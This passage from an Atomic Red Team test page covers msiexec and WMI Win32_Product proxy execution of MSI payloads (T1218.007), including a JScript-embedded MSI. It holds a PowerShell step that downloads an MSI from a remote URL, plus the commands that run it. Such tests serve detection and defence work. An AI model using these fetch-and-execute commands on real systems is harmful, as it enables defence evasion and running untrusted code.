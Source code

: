 
#### Attack Commands: Run with `command_prompt`! 


```cmd
#{msi_exe} /q /#{action} "#{msi_payload}"
```




#### Dependencies:  Run with `powershell`!
##### Description: The MSI file must exist on disk at specified location (#{msi_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{msi_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{msi_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1218.007/bin/T1218.007_EXE.msi" -OutFile "#{msi_payload}"
```




<br/>
<br/>

## Atomic Test #5 - WMI Win32_Product Class - Execute Local MSI file with embedded JScript
Executes an MSI containing embedded JScript code using the WMI Win32_Product class

**Supported Platforms:** Windows


**auto_generated_guid:** 882082f0-27c6-4eec-a43c-9aa80bccdb30





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| msi_payload | MSI file to execute | path | PathToAtomicsFolder&#92;T1218.007&#92;bin&#92;T1218.007_JScript.msi|
| action | Specifies the MSI action to perform: Install, Admin, Advertise. The included MSI is designed to support all three action types. | string | Install|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-CimMethod -ClassName Win32_Product -MethodName #{action} -Arguments @{ PackageLocation = '#{msi_payload}' }
```
